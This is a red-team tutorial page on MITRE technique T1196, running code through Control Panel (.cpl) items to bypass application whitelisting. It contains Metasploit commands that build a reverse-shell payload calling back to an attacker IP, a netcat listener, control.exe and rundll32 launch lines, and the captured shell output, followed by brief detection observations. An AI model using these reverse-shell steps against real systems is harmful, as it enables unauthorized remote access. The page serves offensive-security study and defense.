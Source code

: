 ```yaml
---
layout: post
title: "t1196 control panel item code execution"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1196-control-panel-item-code-execution/
---
```


---
layout: post
title: "t1196 control panel item code execution"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1196-control-panel-item-code-execution/
---

---
description: Control Panel Item code execution - bypass application whitelisting.
---

# Control Panel Item

## Execution

Generating a simple x64 reverse shell in a .cpl format:

{% code title="attacker@local" %}
```csharp
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```
{% endcode %}

We can see that the .cpl is simply a DLL with DllMain function exported:

![](<../../.gitbook/assets/lnk-dllmain (1).png>)

A quick look at the dissasembly of the dll suggests that rundll32.exe will be spawned, a new thread will be created in suspended mode, which most likely will get injected with our shellcode and eventually resumed to execute that shellcode:

![](../../.gitbook/assets/lnk-dissasm.png)

Invoking the shellcode via control.exe:

{% code title="attacker@victim" %}
```csharp
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```
{% endcode %}

Attacking machine receiving the reverse shell:

{% code title="attacker@local" %}
```csharp
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```
{% endcode %}

## Observations

Note how rundll32 spawns cmd.exe and establishes a connection back to the attacker - these are signs that should raise your suspicion when investingating a host for a compromise:

![](../../.gitbook/assets/lnk-connection.png)

As always, sysmon logging can help in finding suspicious commandlines being executed in your environment:

![](<../../.gitbook/assets/lnk-sysmon (2).png>)

## Bonus - Create Shortcut With PowerShell

```bash
$TargetFile = "$env:SystemRoot\System32\calc.exe"
$ShortcutFile = "C:\experiments\cpl\calc.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1196" %}

{% embed url="https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1060/T1060.md" %}
@spotheplanet
